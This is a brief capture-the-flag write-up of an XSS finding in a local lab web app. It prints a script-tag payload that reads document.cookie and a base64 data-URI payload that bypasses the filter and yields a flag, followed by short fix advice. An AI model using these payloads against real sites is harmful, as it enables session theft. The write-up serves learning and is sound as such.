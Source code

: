 # situation

The thing here is that it uses the image source to load the image. So you can directly create data in url.

when we clic on nsa image website open this page : 

## http://192.168.56.101/?page=media&src=nsa

we have a way to charge src we want so we can do xss attack

we try  http://192.168.56.101/?page=media&src=Montpellier<script>alert(document.cookie);</script> 

send to a page white sorry wrong answer + error 404 jpg

I think server read <script> and sanityze it. 

we can try to bypass that whith base 64 encoding:

it s explain her : https://owasp.org/www-community/attacks/xss/
at section : XSS Using Code Encoding
so we try : http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=
and give us that : THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# probleme
the user can execute arbitrary js code on the server by sendig it in base 64 in url.


# fix

Dont use the url to choose the data you are going to load.
Check and sanityze requests you receive. 
The best in this case would have been t make a tab with images names and urls like in database.

